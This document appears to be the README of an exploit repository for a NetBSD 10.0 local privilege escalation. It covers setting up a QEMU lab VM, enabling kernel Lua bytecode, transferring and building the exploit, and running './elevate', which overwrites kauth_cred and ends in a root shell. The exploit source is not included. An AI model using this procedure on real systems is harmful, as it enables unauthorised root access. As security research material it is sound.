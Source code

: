 # Set Up

1. Download the NetBSD 10.0 ISO image or build from source
2. Create qemu disk:

```
qemu-img create disk.img 10G
```

3. Run the VM:

```
qemu-system-x86_64 -smp 2 -drive file=$PWD/disk.img,format=raw \
  -cdrom ~/Downloads/NetBSD-10.0-amd64.iso -m 1024 \
  -gdb tcp::4321 -net user,hostfwd=tcp::5022-:22 \
  -net nic
```

4. Install the operation system
  - Select "Installation without X11" (unless you want the GUI)
  - Select "Enable sshd"
  - Select "Add a user"
    - "Add user to group wheel" -> Yes
  - Reboot


5. Connect to the VM and set up Lua/connectivity with host:

```
$ whoami 
root

$ dhcpcd -w 

$ modload lua
$ modload luasystm
$ sysctl -w kern.lua.bytecode=1
```

6. Transfer the exploit source to the VM:
  - Replace `user` with the username you created during set up

```
$ scp -P 5022 \
  ./src/* \
  ./luac/stage1.luac \
  ./luac/stage2.luac \
  ./build.sh \
  user@localhost:/home/user/

```

7. Build exploit (inside the VM)

```
$ chmod +x ./build.sh
$ ./build.sh
```

8. Run the exploit:

```
$ whoami
user

$ groups
users wheel

$ ./elevate
...
[+] Spawned pid=1484
[+] Waiting for signal...
[+] Signalling parent...
[+] Overwriting kauth_cred
[+] Waiting for child to complete
[+] Waiting for 5s...
[+] Cleaning up...
[+] Executing ./getroot

# id
uid=0(root) gid=0(wheel) groups=100(users),0(wheel)
```
